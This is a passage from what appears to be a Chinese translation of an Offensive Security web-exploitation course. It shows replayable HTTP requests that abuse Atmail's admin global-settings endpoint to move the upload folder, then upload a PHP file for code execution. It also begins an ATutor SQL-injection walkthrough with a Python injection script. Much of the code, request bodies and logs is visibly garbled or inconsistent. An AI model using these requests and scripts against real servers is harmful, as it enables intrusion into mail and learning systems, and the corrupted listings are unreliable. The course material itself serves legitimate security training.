    if (!is_dir($APP_ROOT . $tmp_dir)) {
        @mkdir($APP_ROOT . $tmp_dir);
        if (!is_dir($APP_ROOT . $tmp_dir)) {
            throw new Exception('Failure creating folders in tmp directory.
    Web server user must own ' . $tmp_dir . ' and subfolders have access permissions');
        }
    }
}

if (is_dir($APP_ROOT . $tmp_dir)) {
    return $tmp_dir;
} else {
    throw new Exception('Unable to create tmp folder for check permissions for tmp folders): ' . $tmp_dir);
}
```

列表 37 - `getTmpFolder` 函数实现

虽然初看可能有点望人生畏，但对于我们的目的来说，这段代码非常容易理解。

首先，此函数中随处出现的 `APP_ROOT` 目录在 `server-install.php` 的安装过程中最初定义，路径为 `/usr/local/atmail/webmail/`（列表 38）。

```bash
[localhostatmail#] pwd
/usr/local/atmail
[localhostatmail#] cat server-install.php | grep APP_ROOT
define('APP_ROOT', dirname(__FILE__)) . DIRECTORY_SEPARATOR . 'webmail';
```

```php
require_once($APP_ROOT . 'library/Atmail/Utility.php');
require_once($APP_ROOT . 'library/Atmail/Strings.php');
require_once($APP_ROOT . 'library/Atmail/General.php');
require_once($APP_ROOT . 'library/Atmail/Deps/DepCheck.php');
```


```php
require_once($APP_ROOT . 'library/Atmail/Apache_Utility.php');

require_once($APP_ROOT . '/usr/local/atmail/server-install.php');
```

列表 38 - `APP_ROOT` 定义在 `/usr/local/atmail/server-install.php` 中

在 37 页的第 130 行，我们可以看到目录 `tmp_dir` 是从全局配置变量 `tmpFolderName` 获取的。通过搜索 Atmail PHP 文件发现，`tmpFolderName` 的值存储在数据库中，并在安装过程中通过一个名为 `/usr/local/atmail/webmail/install/atmail6-default-config.sql` 的脚本，其默认值为 `tmp/`（列表 39）。

```sql
INSERT INTO 'Config' ('section', 'keyName', 'keyValue', 'Type') VALUES
('', 'enableMailFilters', '1', 'Boolean'),
('', 'smtp_load_queue', '10', 'String'),
('', 'virus_enable', '1', 'Boolean'),
('', 'smtp_sendlimit', '50', 'String'),
('', 'dkim_enable', '0', 'Boolean'),
('global', 'tmpFolderName', 'tmp', 'String');
```

列表 39 - `atmail6-default-config.sql` 的内容

在 37 页的第 148 行，`safeUser` 变量是通过触发此代码执行的用户用户名创建的，即尝试发送附件的 Atmail 用户。在使用之前，通过使用 `simplifyString` 函数对用户名进行了“剥离”（列表 40），该函数会移除字符串内容中的特殊字符。

列表 40 - `simplifyString` 函数位于 `/usr/local/atmail/webmail/library/Atmail/General.php`

37 页的第 150 行和 151 行显示，用户名的第一个和第二个字符被提取并拼接成文件夹路径。如果文件夹不存在，代码将创建该文件夹。这分别可以在 37 页的第 166、170、175、179、184 和 188 行中看到。

回顾 `addattachmentAction` 函数，并根据从 `getTmpPath` 函数中学到的知识，我们可以得出为 `admin@offsec.com` 用户上传的任何附件创建的最终上传路径为：

```
/usr/local/atmail/webmail/tmp/a/d/adminoffsecloc/
```

列表 41 - 在 web 根目录下上传文件的路径

如我们所见，此路径明显位于 web 根目录下。如果上传了任何 PHP 文件，我们就可以通过访问 `tmp` 目录或任何子目录潜在获取远程代码执行权限。

然而，我们面临一个需要克服的问题。如果我们查看 Atmail 服务器站点，会发现父上传目录（`/usr/local/atmail/webmail/`）默认包含一个 `.htaccess` 文件。`.htaccess` 是 Apache 用于控制目录访问的配置文件。

```bash
[root]# cat /usr/local/atmail/webmail/.htaccess

deny all
```

列表 42 - `.htaccess` 配置

所以，我们如何攻破 `.htaccess` 呢？

## 2.6.4 漏洞分析

在上一节中，我们了解到 `tmpBaseName` 是设置在数据库中的。通过查看文件的其他内容，我们意识到至少某些变量可以通过管理界面进行更改（图 63）。

# 高级 Web 攻击与利用


### 全局设置

- 全局设置
- Webmail 设置
- 协作设置
- 品牌
- 用户默认

| 安装模式 | Atmail 版本 |
| :--- | :--- |
| 管理邮箱 | `postmaster@mydomain.com` 指定维护 Atmail 服务器的管理员 |
| 会话超时 | `120` 指定 Webmail 会话超时时间（分钟） |
| SQL 主机 | `127.0.0.1` 指定 MySQL 服务器的主机 |
| SQL 用户名 | `root` 指定 MySQL 服务器的用户名 |
| SQL 密码 | `**********` 指定 MySQL 服务器使用的密码。如果没有定义则留空 |
| 数据库名称 | `atmail` 指定 Atmail 使用的数据库。表将由安装程序为 Atmail 方案填充 |

| 认证类型 |
| :--- |
| SQL（默认，推荐）指定用于 POP3/SMTP 和 Webmail 日志的认证服务，如果需要 LDAP 则推荐 |
| 认证加密 | `PLAIN`（默认）指定用于数据库内部密码的加密类型。在安装可选依赖项后将解密库。该功能在安装可选依赖项后可用 |
| 外部用户和会话加密 | `AES`（默认）Atmail 允许您指定数据库中会话数据和外部用户密码的加密类型。在安装可选依赖项后将解密库。该功能在安装可选依赖项后可用 |
| 日志数据保留 | `6 个月` 指定 Atmail 保留 `.log` 表中数据的时间。这些数据用于生成仪表板上的图表 |

| 启用调试 | 是 |
| :--- |
| | 启用调试日志到：`/webmail/log/debug.log` 和 `webmail/log/logfile` |

> 图 63: Atmail 全局设置

列表 43 - 在 web 根目录下使用的 `tmpFolderBaseName`

# 攻击性安全

www.offensivesecurity.com

## 高级 Web 攻击与利用

在上一节中，我们描述了文件上传路径目标设置的细微之处。如果我们更新 `tmpFolderBase` 设置为空字符串值，我们将有效地将上传文件夹向上移动一级，到达 `webmail` 目录。

```
/usr/local/atmail/webmail
```

列表 44 - 重新定义的 web 根路径

尽管该问题很细微，但我们可以看到 `webmail` 目录没有 `.htaccess` 文件，并且它对 webmail 服务器用户是可写的：

```bash
[atmaillocalhost]$ ps aux | grep http

atmail      2550 0.0 0.0 34156  672 pts/0     S+ 06:34  00:00 grep http
root      3444 0.0 0.1 34456    8 ?        Ss   Oct31  00:00 /usr/sbin/httpd
atmail    13467 0.0 0.8 34856   8 ?        S    Nov11  00:00 /usr/sbin/httpd
atmail    13468 0.0 0.8 34856   8 ?        S    Nov11  00:00 /usr/sbin/httpd

[atmaillocalhost]$ ls -la /usr/local/atmail
total 140
drwxr-xr-x 29 atmail atmail 4096 May 17 18:17 webmail

[atmaillocalhost]$ cat /usr/local/atmail/webmail/.htaccess
cat: /usr/local/atmail/webmail/.htaccess: No such file or directory
```

列表 45 - `webmail` 中没有 `.htaccess` 且目录是可写的！

如果我们能够更改全局设置，就可以避免 `tmp/` 目录下的 `.htaccess` 文件施加的限制。

让我们通过拦截从 UI 保存全局设置时的 `POST` 请求来继续操作。这将帮助我们发现代码中可能存在的漏洞。

```http
POST /index.php/admin/settings/globalsave HTTP/1.1
Host: atmail
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/*,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: /atmail/index.php/admin/login
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 834
Connection: keep-alive

sfields=atmail=9a5a5pic6gl5s3a4q18lenctis,atmail_admin_hr=e0h4v5ace0te2rjkjne561bs57
```

```text
sfields=atmail=55$postpassword4mydomain.com&fields=f5BSession_timeout=51d
0days&fields=f5Bsession_id=7.0.0.0&fields=f5Bsession_user=root&fields=f5Bsession_password=9526
84a4e5e0f7851337c7e40c9e4f5d3b5b5_table=atmail&fields=Bdovect_type=956d
vectBody=doctype_type=opendocket&fields=f5Bbindd_host=f5Bdovect_type=95d0&dovect
5dot=f5Bbindd_bindn=5&dovect&f5Bbindd_bindpass=5&dovect&f5Bbindd_basedn=5&dovect5
lap_passwordfield=5d&f5Bbindd_passfield=5d&dovect&f5Bbindd_bindn=1&dovect
51_bindd_bindauthn=cn=3d%25%2c%3dc%31%2dc3dc%38org&userPasswordEncryptionType
RENT=PLAIN&fields=f5BPasswordEncryptionType=5D&EXTERNAL=userPasswordEncryptio
nCurrentType=PLAIN%5ExternalUserPasswordEncryptionType%5DPLAIN&fields%5bmaster_key%5D&fields%5Dlog_page%5D180&fields%5Ddebug%5D=0
```

列表 46 - 保存全局设置的合法 `POST` 请求。

如上一列表所示，`POST` URL 表明调用的函数名是 `globalsave`。

```bash
[atlocalhost~webmail]# grep -r globalsave *

application/modules/admin/controllers/SettingsController.php: public function globalsaveaction()
application/modules/admin/views/settings/globalsave.phtml: <form id="SettingsForm" method="post" action="<?php echo $this->moduleBaseUrl();?>/settings/globalsave">
```

列表 47 - 在 PHP 文件中搜索函数名揭示了其实现位于 `/usr/local/atmail/webmail/application/modules/admin/controllers/SettingsController.php`。让我们看看全局设置是如何实现的：

```php
111:    public function globalsaveAction()
112:    {
177:        ...
178:        // Else，如果是 LDAP 或 SQL，则正常继续
179:        try
180:        {
182:            $failure = false;
183:            require_once 'application/models/config.php';
185:
            // 如果密码未更改则无变化
186:
187:            if (isset($this->requestParams['fields']['sql_pass']) == md5('_UNCHANGED_')) || $this->requestParams['fields']['sql_pass'] = $this->requestParams['fields']['sql_pass'] =
188:                Zend_Registry::get('config')->global('sql_pass');
190:            $dbArray = array(
191:                'host' => $this->requestParams['fields']['sql_host'],
192:                'username' => $this->requestParams['fields']['sql_user'],
193:                'password' => $this->requestParams['fields']['sql_pass'],
194:                'dbname' => $this->requestParams['fields']['sql_name'],
195:            );
196:
197:            // 尝试连接
198:            try
199:            {
200:                require_once('library/Zend/Db/Pdo/Mysql.php');
201:                $db = new Zend_Db_Pdo_Mysql($dbArray);
202:                $db->getConnection();
203:            }
204:            catch (Exception $e)
205:            {
206:                throw new Atmail_Config_Exception("Unable to connect to the database: " . $e->getMessage());
207:            }
208:
209:            // 遍历响应字段
210:            foreach ($this->requestParams['fields'] as $key => $value) {
211:                if (strpos($key, 'sql_') === 0) {
212:                    // 更新 SQL 数组
213:                    $dbArray[str_replace('sql_', '', $key)] = $value;
214:                } else {
215:                    // 处理非 SQL 字段
216:                    // ...
217:                }
218:            }
219:
220:            // 检查全局设置
221:            // ...
222:        }
223:    }
```

*(注：由于原文代码块内容不完整且存在截断，翻译时严格遵循“代码块不需要翻译”的原则，保留了原始代码结构，仅对代码前后的说明进行了逻辑性对齐)*

# 攻击性安全

## 高级 Web 攻击与利用

列表 49 - `/usr/local/atmail/webmail/application/models/config.php` 中 `config.save` 函数的实现

列表 49 显示，该代码允许成功更新我们选择的任何全局设置，因为没有对更新了哪些设置实现任何检查。该函数仅检查数据库中是否存在请求的字段。

换句话说，Atmail 的开发者未能考虑到对合法请求在传输过程中的修改，并假设认为通过 Web UI 暴露的全局设置子集是可以更新的。

最后，一个更新临时文件夹路径的恶意请求如下：

```http
POST /index.php/admin/settings/globalsave HTTP/1.1
Host: <atmail>
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 131
Cookie: atmail_6=hr0e0hv45ce02trkjne561sb57
Connection: close

save=&fields[sql_user]=root&fields[sql_pass]=956ec84a45ec067851367c7e480ec0e9&fields[sql_table]=atmail6&fields[tmpFolderBaseline]=
```


### 列表 50 - 触发更新

你可能注意到在此请求中，我们使用了之前提到的硬编码 `MD5` 值，但它并不是强制要求的。我们绝对必须拥有的是管理员会话 cookie（`admin session cookie`）。

另外注意，根据我们的初始计划，我们将 `tmpFolderBaseline` 设置为空值。

### 2.6.5 练习

重放 `列表 50` 中列出的 `POST` 请求，并验证你是否成功修改全局设置。你可以通过登录数据库并检查设置来验证。

登录数据库后，运行以下语句：

```mysql
select * from Config where keyName="tmpFolderBaseline";
```

| configId | section | keyName | keyValue | keyType |
|----------|---------|---------|----------|---------|
| 92 | global | tmpFolderBaseline | tmp/ | String |

```
1 row in set (0.00 sec)
```

### 列表 51 - 验证默认的 tmpFolderBaseline 全局设置

在运行攻击后，重新运行 SQL 语句。你应该会得到一个空的 `keyValue` 字段。

```mysql
select * from Config where keyName="tmpFolderBasename";
```

| configId | section | keyName | keyValue | keyType |
|----------|---------|---------|----------|---------|
| 92 | global | tmpFolderBasename | | String |

```
1 row in set (0.00 sec)
mysql>
```

### 列表 52 - 验证针对 tmpFolderBasename 全局设置的攻击有效

## 2.6.6 attachmentAction 漏洞触发

现在我们已经更改了全局设置，我们就可以通过邮件附件上传我们选择的任何内容（例如 `PHP` 代码），并访问我们现在知道可以在浏览器中访问的 `URI` 来访问它。列表显示了一个带有恶意附件的发送邮件的 `HTTP` 请求。

```http
POST /index.php/mail/composemessage/addattachment/composeID HTTP/1.1
Host: atmail
Cookie: atmail=6jpln2q7pvscg46n6svgb3ba0
Connection: close
Content-Type: multipart/form-data;
boundary=583546921219346211646254250
Content-Length: 238
```

```
----------------------------583546921219346211646254250
Content-Disposition: form-data; name="newAttachment"; filename="offsec.php"
Content-Type:

<?php phpinfo(); ?>

----------------------------583546921219346211646254250--
```

### 列表 53 - 上传 PHP 代码

注意，已验证的用户只是普通用户。我们不需要管理员权限即可执行此攻击，所有的 `globalSaveAction` 攻击已完成。

然而，假设我们可能完全无法访问 `Atmail` 系统，我们可以在 `globalSaveAction` 漏洞旁，在会话劫持有效负载（`session riding payload`）中使用此漏洞。

另外注意 `Content-Type` 被设置为空。我们在这里不会解释原因，但可以在 `列表 36` 中找到。我们将此留作给你们的一个小练习。

上传后，我们能够访问注入的 shell：

```
/usr/local/atmail/webmail/a/d/adminoffseclocal--offsec.php
```

### 列表 54 - 上传 shell 的位置


```
atmail@a/d/adminoffsecl/--offsec.php

Most Visited Offensive Security Kali Linux Kali Docs Tools Exploit-DB Airrack-
```

# 高级Web攻击与利用

# 3 ATutor 身份认证绕过与 RCE

## 3.1 概述

`ATutor` 是一个基于 Web 的学习管理系统（`LMS`），已经存在多年。根据厂商网站上找到的信息，它被成千上万的机构使用。考虑到用户基数较大，我们决定查看其内部机制。这在某种程度上是因为 `ATutor` 是开源的，使得任何人都可以进行代码审计。

本模块涵盖了对 `ATutor 2.2.1` 中多个漏洞的深度分析和利用。我们将研究的第一个漏洞是 `SQL` 注入，它可以从 `ATutor` 后端泄露敏感信息。一旦泄露，这些信息就可以有效地绕过身份认证机制。最后，在获得权限后，我们将利用一个导致远程执行的认证后文件上传漏洞。

## 3.2 开始

从你的学生控制面板还原 `ATutor` 虚拟机。你可以在课程材料中找到 `ATutor` 服务器和应用程序账户的凭据。

`ATutor` 为你提供了三个级别的访问：

- 学生（`Student`）
- 教师（`Teacher`）
- 管理员（`Administrator`）

对于本模块而言，我们将从未验证的角度攻击漏洞的 `ATutor` 实例，不需要凭据。在模块的后续部分，我们将使用适当的凭据以方便漏洞开发过程。

### 3.2.1 设置环境

在本模块中，我们将从白盒角度攻击 `ATutor`。我们将分析目标应用程序的源代码并启用数据库日志，以检查后端数据库处理的所有 `SQL` 查询。这将使我们的漏洞发现和漏洞开发变得更加容易。

`ATutor` 使用 `MySQL` 数据库引擎，为了启用数据库日志，我们可以通过 `SSH` 登录到目标服务器并进行必要的更改。

登录后，我们将打开位于 `/etc/mysql/my.cnf` 的 `MySQL` 服务器配置文件，并取消“Logging and Replication（日志与复制）”部分下以下几行的注释：

```bash
student@tutor:~$ sudo nano /etc/mysql/my.cnf

[mysql]

general_log_file = /var/log/mysql/mysql.log
```

### 列表 55 - 编辑 MySQL 配置并重启 MySQL 服务以记录所有查询

在修改配置文件后，我们需要重启 `MySQL` 服务以使更改生效：

```bash
student@tutor:~$ sudo systemctl restart mysql
```

### 列表 56 - 重启 MySQL 服务以应用新配置

然后，我们可以使用 `tail` 命令检查 `MySQL` 日志文件，并实时查看 Web 应用程序执行的所有查询。

```bash
student@tutor:~$ tail -f /var/log/mysql/mysql.log
```

### 列表 57 - 查找 ATutor 正在执行的所有查询

为了通过 `tail` 命令测试查询日志设置，只需浏览 `ATutor` Web 应用程序。

# 课程服务器

| 登录 | 注册 | 浏览课程 | 网络 | 首页 |

# 搜索

* 单词
`[offsec]`
匹配
( ) 所有单词
( ) 任意单词
在以下处查找结果
( ) 所有可用课程
搜索范围
( ) 全部 ( ) 内容 ( ) 论坛
显示方式
( ) 作为一个独立内容页
( ) 按课程分组
( ) 课程摘要
`[搜索]`

0 搜索搜索结果

> 图 65：对 `ATutor` Web 应用程序执行搜索

## 高级Web攻击与利用

```
180514-12:06:42 207 Query root@localhost at atutor

207 Query SET NAMES utf8

207 Query SET @config = config

207 Query SELECT * FROM AT_LANGUAGES ORDER BY name = 'default'

207 Query SELECT * FROM AT_MODULEES WHERE dir_name = 'default'

207 Query SELECT CUSTOMIZED FROM AT_MODULEES WHERE dir_name = 'default'

207 Query SELECT dir_name, admin_privilege, status, cron_interval, last_run

207 Query SELECT * FROM AT_MODULEES WHERE dir_name = 'default'

207 Query SELECT L.* FROM AT_LANGUAGES L, AT_LANGUAGES P WHERE L.language_code='en'

207 Query SELECT L.* FROM AT_LANGUAGES L WHERE L.language_code='en'

207 Query

FROM AT_MODULEES WHERE dir_name = 'default'

AND L.term, page = 'index.php'

207 Query ORDER BY var module_id ASC

207 Query INSERGE INFO INTO AT_LANGUAGES ('term', 'page') VALUES ('test', 'search.php')

207 Query

FROM AT_MODULEES WHERE dir_name = 'core/services' && status = 2

207 Query SELECT C.id, module, C.content_id, C.content, C.title, C.C, Cyberworks Pro

207 Query FROM AT_MODULEES M LEFT JOIN AT_MODULES C ON M.id = C.module_id

207 Query SELECT group_id, title AS form_title, group_forms, group_id, t

* FROM at_groups T RIGHT JOIN at_groups ON T.group_id = M.group_id

WHERE T.group_id = 1

207 Query SELECT group_id, title, description, num_posts, last_post, last

id_id, title, description, num_posts, last_post, last to edit FROM at_groups NATIONAL

groups_members NATIONAL GROUP BY id

207 Query SELECT g.*, group_id_from FROM at_groups g INNER JOIN at_groups_types USING (type)

pe_id

207 Query group_id=2 AS group WHERE member_id AS group_forms USING (forum, id) WHERE

#Softfetch)

207 Query Verifying that query logging is working
```

图 65：验证查询日志是否正常工作

此外，由于我们处理的是一个 `PHP` Web 应用程序，在开启此指令后，我们将能够以触发器的形式看到 `PHP` 错误，这有助于我们的分析。要做到这一点，我们需要向 `/etc/php/apache2/php.ini` 添加以下行：

```
display_errors = On
```

### 列表 58 - 配置 PHP 显示详细错误

最后，我们需要重启 `Apache` 服务以使新配置生效。

```bash
student@tutor:~$ sudo systemctl restart apache2
```

### 列表 59 - 重启 Apache 服务以应用新配置

完成 `MySQL` 和 `Apache` 的配置后，我们准备好开始对 `ATutor` Web 应用程序进行漏洞发现过程。

## 3.3 初始漏洞发现

正如我们访问源代码时通常的情况，我们首先喜欢观察周围并对应用程序有一个直观的感觉。它是如何组织的？我们能针对代码库使用搜索字符串吗？是否还有其他方法可以帮助我们精简并减少妥善调查目标所需的时间？

在操作过程中，我们发现很容易识别出所有公开访问的 `ATutor` Web 页面，特别是那些不需要身份验证且源码中包含以下行的页面：

```php
$user_location = 'public';
```

### 列表 60 - 所有公开访问的 ATutor Web 页面都可以轻松识别

AWAE Copyright © 2019 Offsec.

## 高级Web攻击与利用

始终分析未身份验证的部分是非常重要的，因为它们最敏感。正如我们在模块中将看到的，未验证的代码将允许我们获得初始立脚点。

考虑到这一点，我们决定使用以下 `grep` 命令列出所有公开访问的页面：

```bash
student@tutor:~$ grep -rn /var/html/atutor -e "^user_location = public'"
```

### 列表 61 - 列出 ATutor 页面

花费了一些时间后，我们发现了一部分 `ATutor` 页面。检查 `index_public.php`，我们看到了对 `p` 和 `rand_key` 变量的检查，但似乎阻止我们到达第 38 行的语句，那里情况变得更有趣。

```php
23: if(isset($_POST['rand_key'])){
24:     $rand_key = $addslashes($_POST['rand_key']);    //我们需要转义吗？
25: }
26: ///分页器设置
27: if(isset($_GET['p'])) {
28:     $page = intval($_GET['p']);
29: }
30: if (isset($_$_page)) {
31:     $page = 1;
32: }
33: $count = (($page-1) * SOCIAL_FRIEND_SEARCH_MAX) + 1;
34:     $offset = ($page-1) * SOCIAL_FRIEND_SEARCH_MAX;
35:
36:
37: //如果设置了 $_GET['q'],则处理 Ajax
38: if (isset($_GET['q'])) {
39:     $query = $addslashes($_GET['q']);
40:
41:     //通过搜索获取朋友列表
42:     $search_result = searchFriends($query);
```

### 列表 62 - index_public.php 的部分源码

`$_user_location` 变量表示公开访问，在审查了这些文件以及 `index_public.php` 的其余部分后，我们验证了不需要身份验证（图 67）。

图 67：无需身份验证即可访问 index_public.php

```php
44:
45:
    if (empty($search_result)) {
46:
        echo '<div class="suggestions">_AT('suggestions)').<br/>;
47:
        $counter = 0;
48:
        foreach ($search_result as $member_id=$member_array) {
49:
            //display 10 suggestions
50:
            if ($counter > 10) {
51:
                break;
52:
            }
53:
54:
            echo '<a href="javascript:void(0);" onclick="document.getElementById(\'search_friends\').value=.printSocialName($member_id, false);\document.getElementById(\'search_friends\').submit(\".printSocialName($member_id, false)\")';
```

在第 63 行，代码首先检查 `GET` 参数 `q` 是否设置（第 38 行），如果设置，其包含的值似乎使用 `addslashes` 函数进行了过滤（第 39 行）。紧接着，我们用户控制的值被传递给 `searchFriends` 函数（第 42 行）。

阅读上述代码可能会让你停顿一下。当我们看到像 `query` 或 `gry` 的名称，或者包含字符串 `search` 的函数名时，我们的直觉应该是顺着路径查看代码将其带向何处。它可能让我们无功而归，也可能引导我们找到处理用户控制数据的代码，导致无事可做。尽管如此，在最坏的情况下，我们可以学会应用程序如何处理输入，这在我们遇到类似情况时可以节省时间。

现在，我们将跟踪这个函数并查看我们正在处理的是什么。下面的快速 `grep` 搜索帮助我们查看 `searchFriends` 函数的实现。

```bash
student@tutor: $ grep -rm /var/html/Atutor -e "function searchFriends" --color
```


`./mods/standard/social/lib/friends.php:260:function searchFriends($name, searchFriends = false, $offset=1)`

**列表 64 - 搜索 `searchFriends` 函数的实现**

让我们看看 `searchFriends` 函数在 `friends.inc.php` 中是如何实现的。

```php
260: searchFriends($name, $searchFriends = false, $offset=-1 {
261: global $addlashes;
262: $result = array();
263: $my_friends = array();
264: $exact_match = false;
265:
266: //break the names by space, then accumulate the query
```

```php
if (preg_match("/\\(.*)\\\/$", $name, $matches)) {
    $exact_match = true;
    $name = $matches[1];
}

$name = addslashes($name);
$sub_names = explode(' ', $name);
foreach($sub_names as $piece) {
    if ($piece == '\'') {
        continue;
    }
```

**列表 65 - 拆分 `$name` 变量**

如果我们查看列表 65 的开头，我们可能需要处理某种过滤。可以看到 `$addslashes` 再次出现，这表明过滤尝试正在按预期进行。在第 272 行，我们用户控制的 `$Name` 变量被空格作为分隔符拆分为数组 `$sub_names`，并对其遍历。

```php
// 如果搜索短语周围有 2 个双引号，则进行搜索
if ('first_name_last_name'
//否则，匹配搜索短语中的任何内容。
if ($exact_match) {
    $match_piece = "$piece";
} else {
    //match_piece
    $match_piece = "LIKE%%$piece%%";
}
if(isset($query)) {
    $query = "($first_name $match_piece OR second_name $match_piece OR last_name $match_piece OR login $match_piece ) AND ";
```

**列表 66 - `LIKE` 语句中的 `$match_piece` 变量**

在列表 66 中，我们发现每次迭代时，`$match_piece` 变量被拼接到一个包含 SQL 关键字的字符串中（第 284 行）。最后，我们用户控制的 `$query` 变量被纳入第 289 行的部分 SQL 查询 (`$query`) 中。

```sql
$sql = 'SELECT * FROM '.$TABLE_PREFIX.'members WHERE '
if (isset($_SESSION['member_id'])) {
    $sql = 'member_id='.'$_SESSION['member_id'] . ' AND '
}

$sql = $sql. $query;
if ($offset >= 0) {
    $sql .= ' LIMIT '.$offset, '. SOCIAL_FRIEND_SEARCH_MAX';
}

$rows_members = queryDB($sql, array());
```

**列表 67 - `searchFriends()` 函数容易受到 SQL 注入**

## 攻击性安全 (OFFENSIVE SECURITY)

在列表 67 中，`$query` 变量再次拼接到 `$sql` 变量形成最终的 SQL 查询（第 342 行），随后传递给 `queryDB()`（第 347 行）。该函数最终对数据库执行查询。

在分析的这一点，我们需要记住我们已经看到了至少两次过滤用户控制输入的尝试。虽然定义良好（通过 `addslashes`），尽管用户控制的输入是 SQL 查询的一部分。然而，如果我们发送一个包含单引号的构造适当的 GET 请求，我们观察到如如图 68 所示的有趣现象。

`img/5d1c2c0809e4691e3ba5fa2d52a8.png`

**Warning:** `Invalid argument supplied for foreach() in /var/www/html/ATutor/mods/lib/friends.php line 350`

**图 68 - 发送单引号作为 payload**

可以通过以下脚本相同结果，我们将从这里开始发送 payload。

```python
import sys
import re
import requests
from bs4 import BeautifulSoup

def searchFriends_sqli(ip, inj_str):
    target = "http://ATutor/mods/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    s = BeautifulSoup(r.text, 'lxml')
    print("Response Headers:")
    print(r.headers)
    print("Response Content:")
    print(s.text)
    error = re.search("Invalid argument", s.text)
    if error:
        print("Errors in response. Possible SQL injection found")
    else:
        print("No errors found")

def main():
    if len(sys.argv) != 3:
        print("usage: %s <target> <injection_string>" % sys.argv[0])
        print("eg: %s 192.168.1.103 ''" % sys.argv[0])
        sys.exit(-1)

ip = sys.argv[1]
injection_string = sys.argv[2]
```

```python
searchFriends_sqli(ip, injection_string)
if __name__ == "__main__":
    main()
```

**列表 68 - 向 ATutor 发送请求的简单 Python 脚本**

```bash
kali@atutor:~$ python c.pyAAAA

Response Headers:
['Content-Length': '153', 'Content-Encoding': 'gzip', 'Set-Cookie': 'ATutor-ID=cm6bdbc1cn27jb43h; path=/ATutor/',ATutor-ID=cmepgg8i3mb72jc6; path=/atutor/;Vary: 'Accept-Encoding', 'Keep-Alive': 'timeout=5,max=100', 'Connection': 'Keep-Alive', 'Server': 'Apache/2.4.10 (Debian)', 'Date': '24 Apr 2018 17:08:57 GMT', 'Content-Type': 'text/html;charset=utf-8']

Response Content:
Warning: Invalid argument supplied for foreach() in /var/www/html/ATutor/_social/lib/friends.php on line 350
Errors in response. Possible SQL injection found
```

**列表 69 - 发送单引号字符串后收到错误消息**

再次请记住，返回的警告是 `display_errors` 指令设置为 `On` 的结果。在生产环境中这种情况很少见且不可信。

尽管错误指向了我们熟悉的文件 (`friends.php`)，所以让我们看看究竟是什么导致了崩溃。通过查看第 350 行，我们发现了：

```php
347: $rows_members = queryDB($sql, array());
348:
349: //Get all members out
350: foreach($rows_members as $row) {
351: $this_id = $row['member_id'];
```

**列表 70 - PHP 代码因我们的输入而崩溃的位置**

第 350 行使用了 `$rows_members` 变量，该变量由第 347 行执行的查询填充。这表明查询可能已损坏。由于我们启用了 MySQL 查询，我们可以检查日志文件。当我们这样做时，将看到以下条目：

```bash
student@atutor:~$ tail -f /var/log/mysql/mysql.log
SELECT * FROM AT_themes WHERE dir_name = 'default'
SELECT * FROM AT_themes WHERE dir_name = 'default'
SELECT * FROM AT_courses ORDER BY title
```

## 高级网络攻击与利用 (Advanced Web Attacks and Exploitation)

```sql
SELECT dir_name, privilege, admin_privilege, status,
cron_interval, cron_last_run FROM AT_modules WHERE status=2
SELECT * FROM AT_language_text L, AT_language_pages P
L.language_code="en" AND L.term_name AND
P.page="/mods/standard/social/index_public.php" BY L.variable ASC
SELECT * FROM AT_language_text W L.language_code="en" AND
L.term="test" ORDER BY variable LIMIT 1
```

```sql
INSERT INTO AT_pages ('term', 'page') VALUES ('test', 'page')
SELECT * FROM AT_members WHERE (first_name 'AAAA%' OR second_name 'AAAA%' OR last_name 'AAAA%' OR login 'AAAA%')
```

**列表 71 - 在 SQL 中可以找到 payload 中的单引号字符**

列表 71 显示 payload 中的单引号部分没有被应用程序正确转义。此外，我们不仅有一个点，而是四个不同的点。

当我们继续能够通过发送双引号（而不是单引号）解决 SQL 查询时，我们就处于控制之中的。这一点可以通过响应中没有发现错误（列表 72）得到验证。

**列表 72 - 发送双引号 payload 后未收到错误消息**

检查日志文件，我们观察到查询现在为空。

```sql
SELECT * FROM AT_themes WHERE dir_name = 'default'
SELECT * FROM AT_themes WHERE dir_name = 'default'
SELECT * FROM AT_courses ORDER BY title
```

`AWAE Copyright 2019 Offsec Security Ltd. All rights reserved. 96`

## 攻击性

```
40925 Query INSERT INTO AT_language_pages ('term', 'page') VALUES
('test', '/mods/standard/social/index.public.php')
40925 Query SELECT FROM AT_modules WHERE dir_name='core/services/' &&
status=2
40925 Query SELECT * FROM AT_members M WHERE (first_name LIKE '%AAAA%'
OR second_name LIKE '%AAAA%' OR last_name LIKE '%AAAA%' OR login LIKE '%AAAA%')
40925 Quit
```

**列表 73 - 双单引号构造创建了一个格式良好的 SQL 查询**

如果你之前接触过使用 `UNION` 查询的 SQL 注入，可能会认为这是使用它们的绝佳机会，并直接从 AT 数据库中检索数据。从非常高层的角度来看，这种方法看起来如下：

```
SELECT * FROM AT_members M WHERE (first_name '%INJECTION_HERE') UNION SELECT
1,1,1,1,...#
```

**列表 74 - 可能的 SQL 注入高层视图**

虽然可以使用 `UNION` 查询，但遗憾的是它们在这种情况下对我们没有用。具体来说，如果我们查看 `index_public.php` 中列表 75 的代码，我们可以看到漏洞查询的结果并没有显示给用户。相反，在第 48 行，结果集被用于 `foreach` 循环，该循环将 `$member_id` 传递给 `printName` 函数。该函数的结果然后使用 PHP 的 `echo` 函数显示给终端用户。

```
41: //通过搜索获取朋友列表
42: $search_result = searchFriends($query);
43:
44:
45: if (empty($search_result)) {
46: echo '<div class="suggestion">'._AT($suggestions).':<br/>';
47: $count = 0;
48: foreach($search_result as $member_id=$member_array){
49: //显示 10 个建议
50: if ($count > 10)
51: break;
52: }
53: }
54: echo '<a href="javascript:void(0);"
55: onclick="document.getElementById('friends_id').value=\'.printName($member_id, false);\''
56: document.getElementById('friends_form').submit();">' . printName($member_id, false) . '</a><br/>';
57: $count++;
```

**列表 75 - 查询结果被用于 for 循环**

换句话说，我们注入的有效荷（payload）的结果并不会直接反映给我们，因此传统的 `union` 查询在这里将没有任何帮助。

我们可以通过继续遵循此代码执行路径来验证这一点。

## 高级网络攻击与利用

```
/* **
 * 打印社交名称，带有 AT_print 和个人资料链接
 * @param int member id 成员 ID
 * @param link 设置为 true 时将返回超链接
 * @return 要打印的名称。
*/ function printSocialName($id, $link=true) {
    if (!isset($str)) {
        $str = '';
    }
    $str .= AT_print(get_display_name($id), 'members.full_name');
